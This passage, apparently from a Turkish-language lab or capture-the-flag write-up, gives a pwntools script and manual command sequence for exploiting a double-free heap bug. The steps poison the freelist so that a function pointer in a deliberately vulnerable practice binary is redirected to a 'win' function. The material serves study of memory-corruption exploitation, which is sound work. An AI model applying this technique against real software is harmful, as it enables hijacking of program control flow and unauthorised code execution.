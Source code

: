 ### 2. Double-Free Exploit Oluşturma

```python
from pwn import *

# Adresleri GDB'den al
target_fn_addr = 0x100008090  # &gTarget.fn
win_addr = 0x100000580        # win fonksiyonu

def alloc():
    p.sendline(b"alloc")
    return p.recvuntil(b"> ")

def free(idx):
    p.sendline(f"free {idx}".encode())
    return p.recvuntil(b"> ")

def write(idx, data_hex):
    p.sendline(f"write {idx} {data_hex}".encode())
    return p.recvuntil(b"> ")

# Exploit adımları
alloc()  # chunk 0 (A)
alloc()  # chunk 1 (B)
free(0)  # A'yı serbest bırak
free(0)  # Double free!

# Freelist'i zehirle
poison_payload = p64(target_fn_addr).hex()
write(0, poison_payload)

# Heap bozulması ile allocation
alloc()  # A'yı geri al
alloc()  # A'yı tekrar al (double-free nedeniyle)
```

### 3. Manuel Test

```bash
# Programı çalıştır
./compiled/vulnerable_code

# Komutları manuel olarak gir
alloc
alloc
free 0
free 0
write 0 0908001000000000
alloc
alloc
call
```
